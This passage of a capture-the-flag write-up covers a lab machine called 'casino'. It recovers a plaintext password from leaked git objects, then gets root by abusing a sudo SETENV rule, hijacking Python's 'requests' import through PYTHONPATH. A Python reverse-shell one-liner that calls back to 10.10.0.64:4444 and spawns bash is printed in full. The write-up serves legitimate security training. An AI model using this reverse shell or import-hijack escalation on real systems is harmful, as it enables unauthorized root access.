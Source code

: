 Before rooting this I actually didn't know about the `git show` command, and instead used this script to read the contents:
```
import zlib
f = open("out","r") # out in this context is just a cleaned up output of "find" command inside the objects directory.
names = f.readlines()
for name in names:

	filename = "/home/corn/ctf/cyberseclab/challenge/casino/web/priv/objects/" +name[:-1]
	compressed_contents = open(filename, 'rb').read()
	decompressed_contents = zlib.decompress(compressed_contents)
	print(decompressed_contents)
```
Contents of the git objects:
```
# beta user: carla
# password: >F73SzS36>V$tJmc
```
Now we can log in as carla to see we can run the following command as root:
```
carla@casino:/home/grey$ sudo -l
[sudo] password for carla: 
Matching Defaults entries for carla on casino:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carla may run the following commands on casino:
    (root) SETENV: /opt/updateBTCPrice.py
```
```
carla@casino:/opt$ cat updateBTCPrice.py 
#!/usr/bin/python3

from datetime import datetime
import requests

print(datetime.now())

try:
	price = requests.get("https://www.coinbase.com/price/bitcoin").text
	btcPrice = open('/var/www/webApp/webApp/templates/btc.price', 'w')
	btcPrice.write(price)
	btcPrice.close()
	import os
	os.system("service apache2 restart")
except:
	print("ERROR: Could not connect to coinbase!")
```
since we can use SETENV on this sudo command, we can specify a `PYTHONPATH` variable in the command to make python run what we want it to.

In this case, I made a `requests.py` file and placed it in the /tmp directory with the contents:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.64",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
Now when we run the command `sudo PYTHONPATH=/tmp /opt/updateBTCPrice.py` we will have a shell as root on our listener.
